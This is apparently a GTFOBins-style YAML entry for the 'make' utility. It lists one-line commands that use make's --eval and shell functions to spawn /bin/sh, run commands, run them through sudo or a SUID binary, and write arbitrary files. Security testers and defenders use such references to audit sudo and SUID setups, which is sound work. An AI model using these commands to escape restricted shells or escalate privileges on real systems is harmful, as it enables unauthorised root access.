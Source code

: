 ```yaml
---
functions:
  execute-interactive:
    - code: |
        COMMAND='/bin/sh 1>&2'
        make -s --eval="a := \$(info \$(shell $COMMAND))" --eval='all:'
  execute-non-interactive:
    - code: |
        COMMAND=/usr/bin/id
        make -s --eval="a := \$(info \$(shell $COMMAND))" --eval='all:'
  sudo-enabled:
    - code: |
        COMMAND=/usr/bin/id
        sudo make -s --eval="a := \$(info \$(shell $COMMAND))" --eval='all:'
  suid-enabled:
    - code: |
        COMMAND=/usr/bin/id
        ./make -s --eval="a := \$(info \$(shell $COMMAND))" --eval='all:'
  file-write:
    - code: |
        LFILE=file_to_write
        make -s --eval="a := \$(file >$LFILE,data)" --eval='all:'
---
```


